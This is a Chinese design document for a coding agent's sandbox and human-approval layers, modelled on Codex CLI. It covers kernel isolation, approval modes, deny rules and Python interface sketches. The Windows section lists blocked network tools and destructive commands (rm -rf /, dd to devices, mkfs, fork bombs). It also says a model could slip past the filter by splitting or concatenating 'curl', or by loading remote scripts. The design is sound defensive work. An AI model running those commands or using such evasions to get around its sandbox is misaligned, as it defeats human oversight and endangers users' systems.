



# 沙盒与审批设计（Sandbox & Approval）

> 独立设计文档，配套 `knowledge/INDEX.md` 的「架构决策·安全在 OS 层」条目。
> 主题：M2「安全与确认」的**沙盒执行层** + **审批门**设计，采用 **Codex（OpenAI Codex CLI）模式**——OS 级纵深防御沙箱 + `AskForApproval` 四模式审批，结合本项目既有的 `risk` 分级与 PLAN 模式。
> 状态：**M2 阶段设计文档**；落地步骤见 `milestones/M2-安全与确认/`。
> 调研基准（2026-07）：OpenAI Codex CLI（Rust core + TS 包装，`codex-core` 的 `sandbox` 模块、AskForApproval 枚举、ExecPolicy）、Claude Code 权限模型（对照参考）。

---

## 1. 核心结论与原则

M2 要解决两件事：**命令跑在哪（沙箱）**、**能不能跑（审批）**。采用 Codex 的**两层安全模型 + 白/黑名单规则层**：

| 层 | 控制什么 | 实现 | 配置项 |
|---|---|---|---|
| **① 沙箱层（Sandbox enforcement）** | 技术上**能做什么**：文件系统/网络/进程隔离 | OS 级（Landlock/seccomp/Seatbelt/Docker） | `sandbox_mode` + `sandbox_profile` |
| **② 审批层（Approval policy）** | **何时必须问人**：HITL 时机 | 运行时策略检查 | `approval.mode` |
| **③ 规则层（allow/deny 白名单）** | 安全网：命令**前缀/正则** 放行或拦截 | 声明式匹配（Codex `ExecPolicy`） | `approval.allow/deny` |

- **配置上正交，执行时 AND**：沙箱级别与审批模式可**独立设置、自由组合**（Codex 官方文档确认 `--ask-for-approval never` 适用于**所有** `--sandbox` 模式；不存在 "danger-full 强制 untrusted" 的绑定）。但**每条操作必须两层都许可才执行**；且**审批决策感知沙箱级别（包含程度）**——`decide()` 把 `sandbox_profile` 当输入（`workspace-write`/`read-only` 视为受限可控，`danger-full` 视为会真落地、风险高），据此 + `mode` + `allow/deny` 决定 ALLOW/DENY/ASK（**不是**先跑一道沙箱预过滤）；审批通过后命令套 profile 执行，越界写/联网由 OS 在执行时强制拦截（`ok=False`）。这正是"根据沙箱级别 + 审批策略共同决定什么要审批、何时审批"（你的直觉，Codex 同此设计）。
- **P2 安全在边界不在提示**：沙箱是内核/容器级的**可插拔执行层**，prompt 只是软约束，绝不信赖模型"别干坏事"。
- **P3 最小权限 + 纵深防御**：默认拒绝网络/危险命令；三层依次收窄——沙箱限定可行集 → 规则层白/黑名单 → 单步 HITL，永不信任 Agent 输出。
- **确定性基础设施**：沙箱与审批都是确定性组件（无 LLM 调用），可独立单测；`AgentLoop` 只做决策，执行经过 `ApprovalGate → SandboxExecutor`。
- **与 PLAN 模式正交**：PLAN 模式是**确定性风险门控**（只放行 `read`，拦 `edit/exec`），在 `loop._risk_blocked` 已落地；M2 的 `ApprovalGate` **仅作用于 EXEC 模式**，不动 PLAN 既有逻辑（保证 `test_plan` 不回归）。两者是纵深的两道独立闸门，互不替代。

> **关键不变式（对齐 Codex 源码 `assess_safety_for_untrusted_command`）**：
> 1. **`deny` 规则永远优先于模式**：即便 `mode=never`，命中 `deny` 的命令仍被拦截（规则层 > 审批层）。
> 2. **权限提升必问（escalated permissions）**：修改系统配置、装包等提权操作，无论沙箱模式与审批模式如何，一律 `AskUser`——这是"沙箱级别 + 审批策略"之外的硬交叉点，不理会审批模式。
> 3. **`never` 不能绕过沙箱**：即使审批设为 `never`，只要不是 `danger-full`，沙箱仍强制生效；若平台不支持沙箱则直接 `Reject`。即"全自动审批"无法用来卸掉隔离。
> 注：Codex **没有** "danger-full 强制 untrusted" 的约束；`danger-full + never` 是被允许的（仅提示不推荐），需显式 `--dangerously-bypass-approvals-and-sandbox`（别名 `--yolo`）才同时关掉两者。

---

## 2. 沙盒：OS 级纵深防御（Codex 模型）

Codex 的沙箱是**执行层的一个可插拔适配器**，由 `sandboxMode`（local / docker / external）选择具体实现。`codex-core` 在本地用 Rust 实现内核级隔离；容器/CI 内声明 `external` 让外层负责隔离。

### 2.1 三档 profile（Codex 原生）

| Profile | 文件系统 | 网络 | 典型用途 |
|---|---|---|---|
| `read-only` | 任意读，禁止写 | 拒绝 | 探索、读代码、跑测试（只读） |
| `workspace-write` | 读任意；**仅工作区（cwd）可写** | 拒绝 | 开发主档：写文件、改代码、跑构建 |
| `danger-full` | 完全访问 | **放行** | 需联网安装依赖、访问远程服务等明确高危场景（用户显式接受风险） |

- 网络**默认拒绝**（`read-only`/`workspace-write` 均断网），只有 `danger-full` 放开。
- profile 是**执行器参数**，由 `Settings.sandbox_profile` 配置、可由 CLI 覆盖；`bash` 工具读取当前 profile 构造 `ExecRequest`。

### 2.2 OS 级执行器实现（local）

`LocalExecutor` 按 OS 选择内核隔离手段（Codex 同构）：

| 平台 | 隔离手段 | 说明 |
|---|---|---|
| Linux (≥5.13) | **Landlock**（文件系统规则）+ **seccomp**（syscall 过滤，拦 `socket` 等网络/危险调用）；可选 `unshare -n` 建无网命名空间 | 内核级，无需 root 即可 Landlock；Codex 用 `sandbox` crate 封装 |
| macOS | **Seatbelt**（`sandbox-exec` + `.sb` profile） | 内核级强制访问控制 |
| Windows | **无原生 seccomp/Landlock**，但 `LocalExecutor` 内装**应用层命令过滤（`CommandFilter`）**：spawn 前静态分析命令，拦越界写/联网/破坏性模式；再叠 Job Object 限制子进程树。**等同软沙箱主动拦截，不打印告警**；仍建议 WSL/Docker 拿 OS 级强隔离 | 应用层强制（非 OS 内核）：命令明显越界会被主动 block，但模型可混淆绕过，弱于内核沙箱 |

- **可用性门控**：Landlock/seccomp/seatbelt 不可用时（内核太旧、权限不足；或原生 Windows 无此原语），`LocalExecutor` **不崩溃**，而是降级执行——**原生 Windows 走 `CommandFilter` 应用层主动拦截（不打印告警）**；Linux/macOS 因内核过旧无法用 OS 原语时，才以"尽力而为 + `⚠️ 沙箱未强隔离` 告警"方式运行并推荐 `docker`/`external`。架构正确、可插拔，不强依赖 root 或特定内核。
- **检测依据是"运行时内核"而非"宿主 OS"**：`LocalExecutor` 在 `run()` 时通过 `platform.system()` / `os.uname().sysname` 判断隔离手段，**不**按"是不是 Windows 机器"硬编码降级。这意味着：在 **WSL2** 内运行 agent 时，系统报告 `Linux` 且内核 ≥ 5.13，`LocalExecutor` **自动命中 Linux 分支（Landlock + seccomp + `unshare -n`）拿到真隔离**，无需任何特判。只有"原生 Windows（非 WSL）"才走 `CommandFilter` 应用层主动拦截（见 §2.6）。
- **网络拒绝的务实实现**：Linux 优先用 `unshare -n`（无网命名空间，零 seccomp 依赖）兜底；seccomp 作为更细的 syscall 过滤增强。`read-only`/`workspace-write` 必走断网；`danger-full` 不走。

### 2.2.1 OS 级隔离原理（这些机制到底是什么）

沙箱之所以叫"OS 级"，是因为限制不是由 agent 代码判断的，而是**由内核在进程运行时强制**——命令想越界时，内核直接拒绝 syscall（返回 `EACCES` / 被 seccomp kill），agent 程序本身拦不住也无需信任模型"别干坏事"。各平台用的内核原语：

| 机制 | 平台 | 强制什么 | 原理（一句话） | 局限 |
|---|---|---|---|---|
| **Landlock** | Linux ≥5.13 | 文件系统读写/执行范围 | LSM 框架，**无需 root**；agent 建一份"允许读 `/`、仅允许写 `cwd`"的规则集，对自己 `restrict_self`，之后所有子进程（bash）继承该限制 | 基于路径，已打开的 FD、`execve` 已放行路径可绕过；不管网络 |
| **seccomp** | Linux | 系统调用白/黑名单 | 用 BPF 过滤 syscall；拦 `socket()` 即可**断网**，拦 `mount`/`ptrace` 等危险调用 | 较粗（按 syscall，不按协议）；需谨慎配 allowlist 否则误杀 |
| **网络命名空间**（`unshare -n`） | Linux | 网络可达性 | 给进程一个**无外网网卡**的命名空间（仅 loopback 或全无），命令连不上外部 → 断网。`read-only`/`workspace-write` 默认走它 | 配合 Landlock 才完整；单用只管网络 |
| **Seatbelt** | macOS | FS/网络/进程 MAC | `sandbox-exec` + `.sb` 声明式 profile，内核强制访问控制；Codex 的 `workspace-write` profile 允许 cwd 写、禁网络 | 仅 macOS；profile 语法偏底层 |
| **Docker 容器** | 全平台（Win/Mac 走 Linux VM） | 全部（FS/网络/进程/算力） | 命名空间(PID/网络/挂载)+cgroups+降权；挂卷 `:ro`/`:rw`、`--network none` 断网 | 需装 Docker；启动有开销 |

**典型"强沙箱"如何拼装**：Linux 上 = `Landlock`(管 FS) + `seccomp`(管 syscall) + `网络命名空间`(管网)，必要时再 `unshare` 隔离 PID/网络；Docker 不过是把这些原语打包成一致、跨平台的容器。**关键认知**：这些都不是"agent 先判断命令危不危险"，而是"命令真去碰越界资源时，内核直接把它打死"——所以断网/限 FS 是**强制**的，模型绕不过。

### 2.2.2 Windows 原生：无 OS 原语，用应用层命令过滤（CommandFilter）兜底

Windows 内核**没有 Landlock、没有 seccomp、没有 Seatbelt**，也没有等价于 `unshare -n` 的轻量断网原语。Windows 上最接近的东西是：

- **Job Object**：能限制一个进程树（CPU/内存/子进程数/UI），但**不能**按路径限制文件系统、**不能**断网——它管不住"写系统目录"或"连外网"。
- **Restricted Token / 完整性级别 / AppContainer**：能降权、能按 app 关网络能力，但要把"仅 cwd 可写 + 断网"整套 profile 接起来相当复杂，且不是本地执行器默认可用的能力。
- **WDAC / AppLocker**：是代码完整性策略（允许跑哪些程序），不是给临时命令做运行时 FS/网络沙箱。

所以**原生 Windows（非 WSL）无法提供"命令越界写/联网被 OS kill"的内核保证**。但 `LocalExecutor` 不靠"打印告警 + 照常跑"糊弄，而是**在进程内直接装一层命令过滤（`CommandFilter`），把软约束变成主动拦截**：

1. **应用层命令过滤（`CommandFilter`，核心）**：在 `run()` 真正 spawn 子进程**之前**，先用 `CommandFilter` 静态分析整条命令（解析重定向/`>`、检测 `cp`/`mv`/`rm` 目标路径、`curl`/`wget`/`ssh`/`git clone`/包管理器联网等），按当前 `profile` 判定：
   - `read-only` / `workspace-write`：写目标落在 `cwd` 之外 → **block**（返回 `ok=False`，理由写"沙箱拦截：越界写 `<path>`"）；出现联网调用 → **block**（理由"沙箱拦截：断网 profile 禁止网络"）。
   - `danger-full`：放行网络与写。
   - 命中破坏性模式（`rm -rf /`、`dd if=... of=/dev/...`、`mkfs`、fork 炸弹等）→ **block**。
   行为上等同 OS 沙箱"运行时拦截"，只是拦截发生在 agent 进程内、而非内核。
2. **进程级兜底**：用 Job Object 限制子进程树（防失控 fork / 无限派生），并以低完整性级别降权运行，缩小破坏面。
3. **`fs.py` 路径校验仍保留**：`read/write/edit` 工具层校验（与 `CommandFilter` 互补，双保险）。
4. **不打印 `未隔离` 告警**：既然已主动拦截，就不再用告警吓用户；仅在文档/注释里诚实说明这是应用层。
5. **推荐升级路径**：装 WSL2（自动命中 §2.2.1 的 Linux 强隔离）→ 或 `sandbox_mode: docker`（`--network none` 真断网，跨平台一致）。

> **诚实边界**：`CommandFilter` 是**应用层**强制，弱于内核沙箱——模型若把 `curl` 拆成 `c='c'u'r'l'`、用变量拼接、或经已放行解释器加载远程脚本，仍可绕过（内核沙箱同样难 100% 防社会工程，但 OS 原语更难绕过）。因此"原生 Windows + `local`"适合**多数开发场景**（越界写/联网会被主动拦下），但**极高风险/不可信输入**任务仍建议 `docker` 或 `external`（见 §2.6）。这仍印证 §1 不变式"安全在边界不在提示"：应用层过滤是边界的**替身**，不是提示。

### 2.3 Docker 执行器（docker）

`DockerExecutor` 把命令跑在一次性容器里，profile 映射为挂载与网络参数：

| Profile | 挂载 | 网络 |
|---|---|---|
| `read-only` | `-v <workspace>:/work:ro` | `--network none` |
| `workspace-write` | `-v <workspace>:/work:rw` | `--network none` |
| `danger-full` | `-v <workspace>:/work:rw` | `--network host`（或默认） |

`docker run --rm -w /work <image> <shell> -c <cmd>`。CI / 高危场景兜底，跨平台一致（Windows 上真正隔离靠它）。

### 2.4 External 执行器（external）

`ExternalExecutor` 是**直通（no-op）**：当 Agent 本身已运行在提供隔离的环境（容器、CI、远程沙箱）时，设 `sandbox_mode=external`，进程内不再做内核隔离，由外层负责。对应 Codex 的 `externalSandbox: true`。这是 Windows/CI 下"真隔离"的推荐路径。

### 2.5 Executor 接口与工厂

```python
# agent/runtime/sandbox.py（M2.1 落地）
class SandboxProfile(str, Enum):
    READ_ONLY = "read-only"
    WORKSPACE_WRITE = "workspace-write"
    DANGER_FULL = "danger-full"

@dataclass
class ExecRequest:
    cmd: str
    cwd: Path
    env: dict[str, str]
    timeout: int = 30
    profile: SandboxProfile = SandboxProfile.WORKSPACE_WRITE

@dataclass
class ExecResult:
    ok: bool
    output: str
    error: str | None
    returncode: int
    sandbox: str            # 实际执行器名（trace 用）

class Executor(Protocol):
    name: str
    async def run(self, req: ExecRequest) -> ExecResult: ...

@dataclass
class FilterVerdict:
    blocked: bool
    reason: str | None = None   # 被哪条规则拦（用于 ExecResult.error）

class CommandFilter:
    """应用层命令沙箱：spawn 前静态分析命令，按 profile 主动拦截。
    原生 Windows 的主隔离手段；Linux/macOS 下作为 OS 沙箱的深度防御。"""
    def check(self, cmd: str, profile: SandboxProfile, *, cwd: Path) -> FilterVerdict:
        # read-only/workspace-write：越界写、联网、破坏性模式 → blocked
        # danger-full：放行
        ...

class LocalExecutor:   ...   # 2.2：Linux/macOS 用 OS 原语强隔离；原生 Windows 用 CommandFilter 应用层拦截（不打印告警）
class DockerExecutor:  ...   # 2.3
class ExternalExecutor: ...  # 2.4 直通

def build_executor(mode: str, *, workspace: Path,
                   profile: SandboxProfile) -> Executor:
    # mode ∈ {"local","docker","external"}（settings.sandbox_mode）
```

- 执行器**可注入**：`bash` 工具经模块级 `get_executor()` 取当前执行器（由 `Settings.sandbox_mode` 决定），测试可替换为 `FakeExecutor`（直通 + 记录请求），保证确定性、不依赖 root/网络。

---

## 2.6 Windows / WSL 部署矩阵（如何让沙箱"真隔离"）

Codex 模式的核心是 OS 级纵深，而 Windows 原生没有 Landlock/seccomp。Agent 跑在哪、用哪种执行器，直接决定隔离强度。按"agent 实际运行环境"分三类：

| 运行环境 | `sandbox_mode` | 实际隔离手段 | 隔离强度 | 说明 |
|---|---|---|---|---|
| **WSL2 内部**（在 WSL 的 Linux 里跑 `python -m agent.cli`） | `local` | Landlock + seccomp + `unshare -n` | ★★★ 强 | 推荐。系统报 `Linux`、内核 ≥5.13，`LocalExecutor` 自动命中 Linux 分支，无需特判。断网靠 `unshare -n` 兜底 |
| **原生 Windows**（PowerShell/cmd 直接跑，未进 WSL） | `local` | 应用层 `CommandFilter` + 进程级(Job Object) | ★★ 应用层强制 | `LocalExecutor` 内主动拦截越界写/联网/破坏性命令（**不打印告警**）；但可被混淆绕过，极高风险任务仍建议 `docker` |
| **原生 Windows，但要真隔离** | `docker` | Docker Desktop（WSL2 后端）一次性容器 | ★★★ 强 | 跨平台一致的真隔离。profile 映射见 §2.3（`--network none` 断网）。需本机装 Docker Desktop |
| **已在容器/CI/远程沙箱里** | `external` | 由外层（容器/CI/WSL 内启动的进程）负责 | ★★★ 取决于外层 | 直通 no-op，`externalSandbox: true`。**若在 WSL 终端里启动 agent + `external`，本质等同"WSL2 内部"那行，外层已是 Linux** |

### 典型落地建议

- **开发机是 Windows 且想要最强又省事**：装 WSL2 → 在 WSL 里 `pip install -e ".[dev]"` → 用 `local` 模式，直接拿到内核级沙箱。这也是文档 §2.2 的推荐路径。
- **不想装 WSL、但接受装 Docker**：`sandbox_mode: docker`，容器化执行，隔离强度等同 Linux。
- **原生 Windows + `local`**：`LocalExecutor` 已内置 `CommandFilter` 主动拦截越界写/联网/破坏性命令，多数开发场景够用；但它是应用层（可被混淆绕过），**不可信输入/极高风险**任务仍请改用 `docker`。
- **CI/容器里**：`external`，把隔离交给外层编排（GitHub Actions、K8s、Docker Compose 等），agent 不再二次隔离。

### 检测实现要点（M2.1 落地注意）

```python
# agent/runtime/sandbox.py — LocalExecutor 选择隔离手段的依据
import platform, os

def _kernel_is_linux() -> bool:
    # WSL1/WSL2 均报告 "Linux"；WSL2 内核 ≥5.15，WSL1 无 Landlock
    return os.uname().sysname == "Linux"   # 不是 platform.platform()/win32 判断

# run() 内：
if _kernel_is_linux() and landlock_available():
    ...  # Landlock + seccomp + unshare -n（WSL2 命中）
elif platform.system() == "Darwin":
    ...  # Seatbelt
else:
    ...  # 原生 Windows 等：应用层 CommandFilter 主动拦截（不打印告警）
```

> 不要写"`if windows: 软约束`"——那样会误伤 WSL2。WSL2 的内核是真实 Linux，应享受强隔离。

---

## 3. 审批：AskForApproval 四模式（Codex 模型）

Codex 的 `approvalMode`（`--approval-mode` / 配置）是 HITL 的总开关；再叠加 `allow`/`deny` 声明式规则（Codex 的 `ExecPolicy` 思想）。本项目把二者收敛进 `ApprovalGate`。

> **审批层与沙箱层如何协作（回答"什么操作要审批、何时审批"）**：
> 1. **审批决策感知沙箱级别（包含程度）**：`decide()` 把 `sandbox_profile` 当输入——`workspace-write`/`read-only` 下被圈住的操作视为"受限可控"，`danger-full`（无隔离）下则是"会真落地、风险高"。据此 + `mode` + `allow/deny` 决定 ALLOW / DENY / ASK（**不是**先跑一道沙箱预过滤）。
> 2. **沙箱在执行时强制**：审批通过后命令套 profile 真跑，OS 层（Landlock/seccomp/`unshare -n`/Docker，见 §2.2.1）把越界写、联网**运行时拦截** → `ok=False`（这是沙箱拦的，不是审批拦的）。
> 3. **提权操作（`escalated`）例外**：即便沙箱允许、审批模式为 `never`，仍强制 ASK（见 §1 不变式 2）。
> 所以"审批策略"不是孤立开关，而是在"沙箱包含程度"内工作——即"根据沙箱级别和审批策略共同决定什么要审批、何时审批"（Codex 同此设计）。

### 3.1 四种模式语义

| 模式 | 语义（Codex 原意） | 本项目落地 |
|---|---|---|
| `untrusted` | 每条命令都问 | 默认安全档。**`exec`/`edit` 一律 ASK**；`read` 自动 ALLOW（只读不危险）。非交互无回调时按 `noninteractive_default`（默认 `allow`，因你已委派任务）放行 |
| `on-request` | 自动跑；模型可在单条命令标 `approval_request` 才问 | 默认 ALLOW（全自动）；**仅命中 `deny` 才 DENY**；模型对"这条我想让你确认"的命令附 `approval_request=true` → 触发 ASK（**LLM 决定问哪条**，区别于 `untrusted` 的确定性问） |
| `on-failure` | 自动跑，失败才问 | 先 ALLOW 执行；若 `ToolResult.ok=False`（命令失败），把错误回呈用户询问是否重试/继续（HITL 兜底） |
| `never` | 永远不问 | 全自动 ALLOW；**但 `deny` 规则仍生效**（安全不变量）。CI/已 external 沙箱时用 |

- 模式是**低风险偏好旋钮**，不替代 `deny` 安全网。
- 默认选择：交互式 `chat` 用 `untrusted`（每步可见、确认疲劳低因为只读自动过）；一次性 `run`/测试无 TTY 时，无 HITL 回调 → 依 `noninteractive_default=allow` 自动放行（你已委派，且命令进沙箱）。

### 3.2 规则引擎（allow / deny，Codex ExecPolicy 思想）

- **`deny`**：前缀/正则匹配的命令**永远拦截**（DENY），优先级高于一切模式。安全网，不可绕过。
- **`allow`**：前缀/正则匹配的命令**短路 ALLOW**，跳过 ASK（减少确认疲劳）。
- 匹配对象：对 `bash` 是命令文本（复用 `bash.is_readonly_command` 的分段归一化思路）；对 `read/write/edit` 是路径参数。
- 配置分层（与既有 settings 一致）：内置默认 → 用户级 → 项目级 → CLI，项目级可覆盖。

### 3.3 HITL 回调（SessionUI.approve）

单步 ASK 时调用 `ui.approve(action) -> bool`：

- `SessionUI` 协议新增 `approve(action: Action) -> bool`（异步，因 `_TyperUI` 走 prompt_toolkit 异步）。
- 交互式（`chat`）：弹出「🔒 是否允许执行？」面板，展示 `action.description`（工具 + 风险 + 命令预览），`y` 放行 / `n` 拒绝。
- 非交互（`run`/测试）：无回调或 `interactive=False` → 依 `noninteractive_default` 决定（默认 allow，不阻塞 CI）。
- 拒绝后返回 `ToolResult(ok=False, error="rejected by user")`，落入循环让模型自纠（复用既有"工具失败不崩循环"机制）。

### 3.4 ApprovalGate 接口

```python
# agent/runtime/approval.py（M2.2 落地）
class ApprovalMode(str, Enum):
    UNTRUSTED = "untrusted"
    ON_REQUEST = "on-request"
    ON_FAILURE = "on-failure"
    NEVER = "never"

@dataclass
class Action:
    tool: str          # bash / read / write / edit ...
    risk: str          # read / edit / exec（来自 registry.risk）
    args: dict         # 参数（命令文本 / 路径），供规则匹配
    description: str   # 人类可读一行，给 HITL 展示
    approval_request: bool = False  # 模型在单条命令显式请求审批（on-request 模式用）
    escalated: bool = False         # 提权操作（装包 / 改系统配置），触发强制 ASK

@dataclass
class Decision:
    verdict: str       # "allow" | "deny" | "ask"
    reason: str

class ApprovalGate:
    def __init__(self, mode: ApprovalMode, *, allow=None, deny=None,
                 ui=None, noninteractive_default: str = "allow",
                 sandbox_profile: str = "workspace-write"):
        self.sandbox_profile = sandbox_profile   # 感知沙箱：作为 decide 的包含程度信号
        ...
    def decide(self, action: Action, sandbox_profile: str) -> Decision:
        # 1) deny 规则命中 → DENY（安全不变量，覆盖一切模式）
        # 2) escalated 提权 → ASK（不理会 mode）
        # 3) read 且非 untrusted → ALLOW
        # 4) allow 规则命中 → ALLOW
        # 5) 按 mode：
        #    untrusted → (exec/edit)ASK / (read)ALLOW
        #    on-request → 命令带 approval_request? ASK : ALLOW   # ← LLM 决定
        #    on-failure → ALLOW（失败才问）
        #    never     → ALLOW（仍受 deny 约束）
        # 注：sandbox_profile 作为"包含程度"信号参与风险判定（感知沙箱）
    async def authorize(self, action: Action) -> bool:
        d = self.decide(action, self.sandbox_profile)
        if d.verdict == "deny":
            return False
        if d.verdict == "allow":
            return True
        # ASK：调 ui.approve(action)；无 ui → noninteractive_default
```

---

## 4. 决策流（流程图）

> **一句话模型**：每条命令要过两道协作的闸，且**审批感知沙箱级别**——
> 1. **① 审批层（何时必须问人）**：`ApprovalGate.decide(action, sandbox_profile)` 把 `sandbox_profile` 当作**"包含程度"信号**——被 `workspace-write`/`read-only` 圈住的操作视为"受限可控"，`danger-full`（无隔离）下同样的写操作则是"会真落地、风险高"。据此 + `mode` + `allow/deny` 决定 `ALLOW` / `DENY` / `ASK`；`escalated` 提权无视 mode 强制 ASK；`on-request` 下由**模型在单条命令附 `approval_request` 标记**触发 ASK（LLM 决定问哪条）。
> 2. **② 沙箱层（技术上能做什么，执行时强制）**：审批**通过后**，命令套一档 profile 真正运行；`SandboxExecutor` 在 OS 级（Landlock/seccomp/网络命名空间）把越界写、联网等**执行时拦截**——越界即 `ok=False`（这是沙箱拦的，不是审批拦的）。
> 两道闸**配置正交、执行时 AND**；审批决策建立在"沙箱包含程度"之上（即感知沙箱）；`deny` 优先级最高，profile 是放行后的兜底封顶。注意：沙箱**不是**执行前的预过滤闸门，它不预先判定"技术上允许?"，而是在命令运行时强制隔离。

### 三个独立旋钮（速览）

| 旋钮 | 取值 | 回答的问题 |
|---|---|---|
| `sandbox_mode` | `local` / `docker` / `external` | 命令"在哪"跑（执行器类型） |
| `sandbox_profile` | `read-only` / `workspace-write` / `danger-full` | 命令"能碰什么"（隔离强度/沙箱级别） |
| `approval.mode` | `untrusted` / `on-request` / `on-failure` / `never` | 命令"要不要先问"（HITL） |
| `allow` / `deny` | 命令前缀 / 正则列表 | 安全网（deny 永远优先） |

> `sandbox_mode` 与 `sandbox_profile` 常被混淆：前者是"执行器类型"（**在哪隔离**），后者是"权限档位"（**隔离到什么程度**）。同一档 profile 在 `local` / `docker` 下含义一致（见 §2.1 / §2.3）。

### 4.1 单步工具执行流（loop → ①审批层 → ②沙箱执行层）



> **感知沙箱的关键（修正旧误）**：沙箱**不是**执行前的预过滤闸门，它不会在命令运行前去判定"技术上允许?"。正确理解有两层：
> 1. **审批决策感知 sandbox_profile（包含程度）**：`decide()` 把 profile 当输入——`workspace-write`/`read-only` 下被圈住的操作视为"受限可控"，可放心全自动（`on-request`/`never`）或正常问（`untrusted`）；`danger-full`（无隔离）下同样的写操作是"会真落地"，风险更高、必须严格门控。这正是"进入沙箱后，根据沙箱级别和审批策略决定什么要审批、何时审批"。
> 2. **沙箱在执行时强制**：审批通过后命令套 profile 真跑，OS 层（Landlock/seccomp/`unshare -n`）把越界写、联网等**运行时拦截** → `ok=False`。这种失败是"沙箱拦的"而非"审批拦的"，二者互不替代（见 §4.2）。

#### 裁决树（decide 内部，对应上图 ② 审批层节点）




> 关键：**哪两种情形会 ASK？** ① `untrusted` 模式下的 `edit/exec`（确定性地每步问）；② `on-request` 模式下**模型显式标记 `approval_request` 的单条命令**（LLM 决定问这条）。其余组合一律 ALLOW（除非命中 deny / escalated 提权）。`read` 命令任意模式都 ALLOW，故 `untrusted` 确认疲劳很低；`on-request` 默认零打扰、只在模型主动要求时才问。
> 非交互（如 `run` 无 TTY / 测试）无 HITL 回调时，ASK 按 `noninteractive_default=allow` 自动放行，不阻塞 CI。

- **on-failure 特殊处理**：先 ALLOW 执行；若 `ok=False`，再把"失败 + 错误"交 `ui.approve`（问是否重试/继续），仍被拒则维持 `ok=False` 让模型自纠。

### 4.2 sandbox profile 应用流（执行阶段套哪档）



> `profile` 是**全局统一档位**（来自 `settings.sandbox_profile`），与审批结果无关：无论 `ALLOW` 还是 `ASK` 通过，命令都套同一档 profile（放行后的封顶）。`sandbox_mode` 只决定"在哪隔离"，profile 决定"隔离到什么程度"（见 §2.1 / §2.3）。


### 4.3 审批决策矩阵

| 模式 \ 风险 | read | edit | exec |
|---|---|---|---|
| `untrusted`（默认，交互） | ALLOW | ASK | ASK |
| `on-request` | ALLOW | ALLOW* | ALLOW* |
| `on-failure` | ALLOW | ALLOW | ALLOW（失败才 ASK） |
| `never` | ALLOW | ALLOW | ALLOW |

`*` = 命中 `deny` 规则时仍 DENY（安全不变量）。`untrusted` 的 ASK 在非交互下按 `noninteractive_default=allow` 自动放行。

### 4.4 端到端示例：同一条命令在不同配置下的命运

下面用真实命令演示"审批结果"与"沙箱级别"如何叠加。假设未配置任何 allow/deny 规则（纯看 mode + profile）：

| 命令 | 风险 | 配置（mode + profile） | 结果 |
|---|---|---|---|
| `cat src/main.py` | read | 任意 + 任意 | **直接 ALLOW**（read 不过问）；profile 此时只约束写/网，读不受影响 |
| `rm -rf build/` | exec | `untrusted` + `workspace-write` | ASK 弹窗；同意后**在 cwd 内**删除、且断网；若换成 `read-only`，沙箱内禁写，`rm` 直接失败 |
